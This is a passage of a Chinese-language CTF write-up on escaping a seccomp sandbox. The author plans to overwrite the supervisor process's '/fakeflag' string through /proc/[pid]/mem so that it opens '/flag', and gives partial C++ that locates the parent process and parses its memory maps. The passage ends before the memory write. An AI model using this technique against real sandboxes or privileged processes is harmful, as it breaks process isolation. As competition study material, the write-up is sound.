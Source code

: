 再看看 `ALLOWLIST` 有什么，可以用 `clone` 来实现类似 `fork` 的效果。在网上找了一个
[例子](https://eli.thegreenplace.net/2018/launching-linux-threads-and-processes-with-clone/)
，可以运行，而且子进程的输出也能看到，但是子进程也继承了 seccomp，父进程退出后也不解除。

继续看 `ALLOWLIST`，有 `mmap`、`mprotect` 和 `lseek`，想到刚结束的 GeekGame-3rd
[禁止执行，启动](https://github.com/PKU-GeekGame/geekgame-3rd/tree/master/official_writeup/prob07-noexec)
flag2 解法是写 `/proc/[pid]/mem`，说不定我们可以把父进程 supervisor 里面的
`/fakeflag` 改了，让它帮我们打开 `/flag`。虽然不知道 rust
怎么存储字符串，但长度差刚好是偶数，我们可以写成 `/././flag`。也不知道字符串在哪个段，
所以把 `.data` 前面的几个都搜索一遍。写的时候才知道 `/proc/[pid]/mem`
[不能](https://stackoverflow.com/questions/5216326/mmap-on-proc-pid-mem)
`mmap`，所以也不能 `mprotect`，但是可以无视权限读写用户空间的页（读题解不仔细导致的）。

```cpp
#include <cstdio>
#include <cstdlib>
#include <cstring>
#include <unistd.h>
#include <iostream>
#include <fstream>
#include <string>
#include <regex>
#include <fcntl.h>
#include <sys/mman.h>

int main() {
    std::string line;
    std::ifstream f;

    f.open("/proc/self/status");
    if (!f.is_open()) {
        puts("Failed to open /proc/self/status");
        return 1;
    }
    std::string ppid;
    while (getline(f, line)) {
        if (line.substr(0, 5) != "PPid:") {
            continue;
        }
        ppid = line.substr(6);
        std::cout << "ppid is " << ppid << std::endl;
    }
    f.close();

    f.open("/proc/" + ppid + "/cmdline");
    while (getline(f, line)) {
        std::cout << "cmdline " << line << std::endl;
    }
    f.close();

    long first_start = 0;
    long last_end;
    f.open("/proc/" + ppid + "/maps");
    if (!f.is_open()) {
        puts("Failed to open /proc/<ppid>/status");
        return 1;
    }
    while (getline(f, line)) {
        int hyphen = line.find("-");
        int first_space = line.find(" ");
        int second_space = line.find(" ", first_space + 1);
        long start = std::stol(line.substr(0, hyphen), nullptr, 16);
        long end = std::stol(line.substr(hyphen + 1, first_space), nullptr, 16);
        std::string mode = line.substr(first_space + 1, second_space - (first_space + 1));
        std::cout << start << " " << end << " " << mode << std::endl;
```
